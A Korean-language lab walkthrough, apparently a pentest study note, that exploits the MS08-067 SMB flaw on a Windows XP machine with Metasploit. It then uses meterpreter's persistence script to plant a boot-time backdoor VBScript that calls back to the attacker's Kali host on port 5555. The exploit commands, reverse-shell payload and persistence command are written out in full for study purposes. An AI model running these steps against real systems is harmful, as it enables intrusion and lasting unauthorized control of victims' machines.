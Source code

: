 공격할 대상인 winXP에 취약점 ms08-067을 이용하자

익스플로잇과 페이로드 설정 후 show options 명령어를 통해 필요한 정보 확인

```jsx
msf > search ms08-067
msf > use exploit windows/smb/ms08_067_netapi
msf exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp_allports
msf exploit(windows/smb/ms08_067_netapi) > show options
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0659e3d6-b269-4891-b40c-50dcffd2da79/post-exploit.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0659e3d6-b269-4891-b40c-50dcffd2da79/post-exploit.png)

RHOST와 LHOST IP 를 설정해준다.

```jsx
> set RHOST [window XP IP]
> set LHOST [Kali IP]
```

설정을 완료 했으면 실행시켜준다.

```jsx
> run
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/75c968c5-719a-4342-a365-a44b54bd47df/post-exploit2.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/75c968c5-719a-4342-a365-a44b54bd47df/post-exploit2.png)

persistence를 실행시키고 -h 명령어를 통해 사용 방법을 알아보자

```jsx
meterpreter > run persistence -h
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f3b0198f-9412-4a15-9458-becbd3e1f6f0/post-exploit3.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f3b0198f-9412-4a15-9458-becbd3e1f6f0/post-exploit3.png)

각 옵션에 따라 부팅시, 로그인시 등 다양한 설정이 가능하다.

에이전트에 연결하기 위해 적절한 exploit/multi/handler 자동 시작

우리는 시스템이 부팅시 자동적으로 실행, 연결 시도 간격 10초로 설정한다.

```jsx
meterpreter > run persistence -A -P windows/meterpreter/reverse_tcp_allports -X -i 10 -p 5555 -r [kali IP]
```

이제 persistence method를 사용할 준비가 되었다. 실행시키자!

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3819a994-a04b-4137-8abb-414efdf0097e/post-exploit4.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3819a994-a04b-4137-8abb-414efdf0097e/post-exploit4.png)

결과를 살펴보자 첫번째 [+] 를 보면 공격대상의 해당경로에 Persistence Script(back door)가 쓰여있다고 적혀있다.  

윈도우 XP에서 실제로 이 파일이 생성되었는지 확인해보자

c:\WINDOWS\TEMP로 들어간다.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ad21b4b2-799f-4714-b9e6-7b6603986d49/post-exploit5.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ad21b4b2-799f-4714-b9e6-7b6603986d49/post-exploit5.png)

실제로 visual basic script 파일이 생성되었음을 확인할 수 있다.
